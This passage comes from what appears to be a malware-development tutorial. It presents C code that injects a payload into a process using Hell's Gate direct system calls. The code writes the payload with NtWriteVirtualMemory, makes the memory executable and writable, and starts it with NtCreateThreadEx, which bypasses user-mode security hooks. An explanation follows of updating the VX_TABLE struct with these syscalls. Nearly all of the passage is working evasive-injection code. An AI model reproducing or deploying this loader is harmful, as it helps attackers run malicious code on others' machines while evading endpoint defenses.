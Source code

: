 ```c
	// Writing the payload
	printf("\t[i] Writing Payload Of Size %d ... ", sPayloadSize);
	HellsGate(pVxTable->NtWriteVirtualMemory.wSystemCall);
	if ((STATUS = HellDescent(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sPayloadSize) {
		printf("[!] pNtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		printf("[i] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
		return FALSE;
	}
	printf("[+] DONE \n");

//--------------------------------------------------------------------------

	// Changing the memory's permissions to RWX
	HellsGate(pVxTable->NtProtectVirtualMemory.wSystemCall);
	if ((STATUS = HellDescent(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {
		printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

//--------------------------------------------------------------------------
	// Executing the payload via thread 
	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();
	printf("\t[i] Running Thread Of Entry 0x%p ... ", pAddress);
	HellsGate(pVxTable->NtCreateThreadEx.wSystemCall);
	if ((STATUS = HellDescent(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
		printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] DONE \n");
	printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));


	return TRUE;
}
```

#### Updating The VX_TABLE Structure

Next, the [VX_TABLE](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L14) structure must be updated with the names of the syscalls that are used in this module, as shown below.

```c
typedef struct _VX_TABLE {
	VX_TABLE_ENTRY NtAllocateVirtualMemory;
	VX_TABLE_ENTRY NtWriteVirtualMemory;
	VX_TABLE_ENTRY NtProtectVirtualMemory;
	VX_TABLE_ENTRY NtCreateThreadEx;
} VX_TABLE, * PVX_TABLE;
```
